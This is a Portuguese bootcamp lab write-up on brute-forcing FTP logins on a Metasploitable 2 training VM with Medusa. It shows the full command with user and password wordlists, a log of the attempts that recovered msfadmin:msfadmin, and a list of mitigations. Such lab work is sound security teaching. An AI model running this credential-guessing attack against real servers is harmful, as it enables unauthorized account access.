

# FTP‑02 – Força Bruta em FTP (Metasploitable 2 – múltiplos usuários)

## 📌 Objetivo
Executar um ataque de força bruta contra o serviço FTP da máquina **Metasploitable 2** (IP `192.168.1.11`) usando **Medusa**, desta vez combinando **vários usuários** e **várias senhas** para demonstrar a exploração de credenciais fracas em diferentes contas.

## 🛠️ Pré‑requisitos
- Kali Linux (IP `192.168.1.10`) com Medusa instalado (`sudo apt install medusa`).
- Metasploitable 2 rodando o serviço FTP (`vsftpd`).
- Wordlists:
  - `users.txt` – lista de usuários (`msfadmin`, `user`, `admin`, `root`).
  - `pass_small.txt` – senhas curtas (`password`, `123456`, `qwerty`, `msfadmin`).

## 🚀 Comando executado
```bash
medusa -h 192.168.1.11 \
       -U users.txt \
       -P pass_small.txt \
       -M ftp \
       -t 8 -v 3 \
       | tee ftp02.log
```

> `-t 8` usa oito threads paralelas; `-v 3` aumenta a verbosidade para registrar cada tentativa.

## 📄 Resultados (log resumido)
O log completo está em `ftp02.log`. Extractos relevantes:
```
2026-11-17 21:55:12 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: msfadmin Password: password (1 of 4)
2026-11-17 21:55:12 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: msfadmin Password: 123456 (2 of 4)
2026-11-17 21:55:12 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: user Password: msfadmin (1 of 4)
2026-11-17 21:55:12 ACCOUNT FOUND: [ftp] Host: 192.168.1.11 User: msfadmin Password: msfadmin [SUCCESS]
2026-11-17 21:55:13 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: user Password: 123456 (2 of 4)
2026-11-17 21:55:13 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: user Password: qwerty (3 of 4)
2026-11-17 21:55:13 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: user Password: password (4 of 4)
2026-11-17 21:55:15 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: admin Password: 123456 (1 of 4)
2026-11-17 21:55:15 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: admin Password: password (2 of 4)
2026-11-17 21:55:17 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: admin Password: qwerty (3 of 4)
2026-11-17 21:55:17 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: admin Password: msfadmin (4 of 4)
2026-11-17 21:55:17 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: root Password: 123456 (1 of 4)
2026-11-17 21:55:19 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: root Password: password (2 of 4)
2026-11-17 21:55:19 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: root Password: msfadmin (3 of 4)
2026-11-17 21:55:19 ACCOUNT CHECK: [ftp] Host: 192.168.1.11 User: root Password: qwerty (4 of 4)
```
A credencial **`msfadmin:msfadmin`** foi descoberta novamente, além de várias tentativas falhas em outras contas, ilustrando a vulnerabilidade de senhas fracas.

## 📸 Captura de tela


## 🛡️ Mitigações recomendadas
- **Desativar FTP** ou migrar para **SFTP**/FTPS.
- Aplicar **limitação de tentativas** (ex.: `fail2ban`).
- Forçar **senhas complexas** e políticas de expiração.
- Restringir **acesso por IP** ao serviço FTP mediante firewall.

---
**Referências**
- Medusa manual: `man medusa`.
- Metasploitable 2 – lista de serviços vulneráveis: https://github.com/rapid7/metasploitable2

*Este documento faz parte do repositório `bootcamp‑dio` e serve como evidência para o cenário FTP‑02.*
